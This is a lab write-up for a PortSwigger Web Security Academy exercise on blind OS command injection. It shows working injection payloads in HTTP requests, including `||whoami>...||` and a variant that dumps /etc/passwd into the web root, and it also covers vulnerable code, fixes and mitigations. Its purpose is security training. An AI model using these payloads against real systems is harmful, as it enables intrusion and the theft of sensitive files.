


# Lab 03: Blind OS Command Injection with Output Redirection

> **Topic**: OS Command Injection
> **Lab Number**: 03
> **Platform**: PortSwigger Web Security Academy

## Category
Blind OS Command Injection — Output Exfiltration via File Write to Web-Accessible Directory

## Vulnerability Summary
The feedback submission endpoint passes user-supplied fields to a backend shell command without sanitization. The injection is blind — no command output appears in the HTTP response. However, the web server serves static files from `/var/www/images/` via the `/image?filename=` endpoint. By injecting `||whoami>/var/www/images/output.txt||` into the `email` parameter, the output of `whoami` is written to a file in the web root. A subsequent GET request to `/image?filename=output.txt` retrieves the file contents, revealing the OS username `peter-8nJZah`.

## Attack Methodology

### Step 1: Identify the Feedback Endpoint and Image Serving Endpoint
Intercepted the feedback form POST and noted the image-serving endpoint from the shop page:

```
POST /feedback/submit       ← injection point
GET /image?filename=...     ← serves files from /var/www/images/
```

The `filename` parameter in the image endpoint is a strong hint that files are read directly from a known filesystem path.

### Step 2: Inject Command with Output Redirected to Web Root

Modified the `email` parameter to redirect `whoami` output into the images directory:

```http
POST /feedback/submit HTTP/2
Host: 0a2800910419d3248125075200580 0a9.web-security-academy.net
Cookie: session=70PhufwsrwvkBUpgi96kmx53G4VIL8oM
Content-Type: application/x-www-form-urlencoded

csrf=n6CUumpkemJhVOSzUOHN0tsB1NCfyH5K&name=sher&email=||whoami>/var/www/images/output.txt||&subject=&message=jefhjw
```

The backend shell executes:
```bash
mail ... ||whoami>/var/www/images/output.txt||
```

Which the shell interprets as:
```bash
mail ...          # fails or runs
|| whoami > /var/www/images/output.txt   # runs whoami, writes output to file
||                # trailing no-op
```

Response: `HTTP/2 200 OK` — `{}` (blind, no output in response)



### Step 3: Retrieve the Output File via the Image Endpoint

```http
GET /image?filename=output.txt HTTP/2
Host: 0a2800910419d3248125075200580 0a9.web-security-academy.net
Cookie: session=70PhufwsrwvkBUpgi96kmx53G4VIL8oM
```

Response:
```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
Content-Length: 13

peter-8nJZah
```

The `whoami` output (`peter-8nJZah`) is returned in plaintext. Lab solved.



## Technical Root Cause

### Vulnerable Code (Pseudocode)
```python
import subprocess

def submit_feedback(request):
    email = request.POST.get('email')
    subject = request.POST.get('subject')
    message = request.POST.get('message')
    # VULNERABLE: user input in shell string, output redirection possible
    subprocess.run(
        f'mail -s "{subject}" {email} <<< "{message}"',
        shell=True
    )
    return JsonResponse({})

def serve_image(request):
    filename = request.GET.get('filename')
    # VULNERABLE: reads any file from images directory by name
    path = f'/var/www/images/{filename}'
    return FileResponse(open(path, 'rb'))
```

Two vulnerabilities combine:
1. Shell injection in `email` allows arbitrary command execution with output redirection (`>`)
2. The image endpoint serves any file from `/var/www/images/` — attacker-written files included

### Secure Code (Pseudocode)
```python
import subprocess, re, os

def submit_feedback(request):
    email = request.POST.get('email', '')
    if not re.fullmatch(r'[a-zA-Z0-9._%+\-]+@[a-zA-Z0-9.\-]+\.[a-zA-Z]{2,}', email):
        return HttpResponseBadRequest('Invalid email')
    subprocess.run(['mail', '-s', subject, email], input=message.encode())
    return JsonResponse({})

def serve_image(request):
    filename = os.path.basename(request.GET.get('filename', ''))
    path = os.path.join('/var/www/images', filename)
    # Ensure resolved path stays within the images directory
    if not os.path.realpath(path).startswith('/var/www/images/'):
        return HttpResponseForbidden()
    return FileResponse(open(path, 'rb'))
```

## Impact
- **Blind Injection Becomes Visible**: Output redirection converts a blind vulnerability into a fully readable one — no OOB channel needed if a writable web-accessible directory exists
- **OS User Disclosure**: `whoami` reveals the process username, useful for privilege escalation planning
- **Arbitrary File Write**: Any command output (e.g., `/etc/passwd`, private keys, env vars) can be written to the web root and retrieved

**Severity: Critical**

## Proof of Concept

**Step 1 — Write `whoami` output to web root:**
```http
POST /feedback/submit HTTP/2
Content-Type: application/x-www-form-urlencoded

csrf=...&name=x&email=||whoami>/var/www/images/output.txt||&subject=x&message=x
```

**Step 2 — Read the output:**
```http
GET /image?filename=output.txt HTTP/2
```

**Response:**
```
peter-8nJZah
```

**Further exploitation — dump `/etc/passwd`:**
```
email=||cat /etc/passwd>/var/www/images/out.txt||
```

## Key Takeaways
1. **Blind + Writable Web Directory = Visible Injection**: If the server process can write to any web-accessible path, output redirection (`>`) turns blind injection into a fully readable exfiltration channel — no DNS callbacks or timing needed.
2. **Two Vulnerabilities Chained**: The injection alone is blind and limited. The permissive file-serving endpoint (`/image?filename=`) is what makes exfiltration trivial. Defense must address both.
3. **`||` Operator for Reliable Injection**: Using `||cmd||` ensures the injected command runs regardless of whether the preceding command succeeds or fails, making it more reliable than `;` in contexts where the original command may error out.
4. **Know Your Web Root**: Attackers enumerate writable directories under the web root as a standard post-injection step. `/var/www/images/`, `/tmp/`, and upload directories are common targets.

## Mitigation

### 1. Eliminate Shell Execution
```python
# Use native libraries — no shell, no redirection possible
subprocess.run(['mail', '-s', subject, email], input=message.encode())
```

### 2. Restrict File Serving to Known Extensions and Validate Path
```python
ALLOWED_EXTENSIONS = {'.jpg', '.jpeg', '.png', '.gif', '.webp'}
filename = os.path.basename(request.GET.get('filename', ''))
if os.path.splitext(filename)[1].lower() not in ALLOWED_EXTENSIONS:
    return HttpResponseForbidden()
```

### 3. Serve Images from a Non-Writable Directory
Store user-uploaded and application images in a directory the web process cannot write to. Use a separate, read-only static file server.

### 4. Principle of Least Privilege
The web process should not have write access to any web-accessible directory. Separate the upload handler (write) from the application process (read-only).

## References
- [PortSwigger — Blind OS Command Injection with Output Redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)
- [PortSwigger — Blind OS Command Injection](https://portswigger.net/web-security/os-command-injection#exploiting-blind-os-command-injection-by-redirecting-output)
- [OWASP — OS Command Injection Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
- [CWE-78: Improper Neutralization of Special Elements used in an OS Command](https://cwe.mitre.org/data/definitions/78.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium

---

*Lab completed on: 2026-05-09*  
*Writeup by vibhxr*
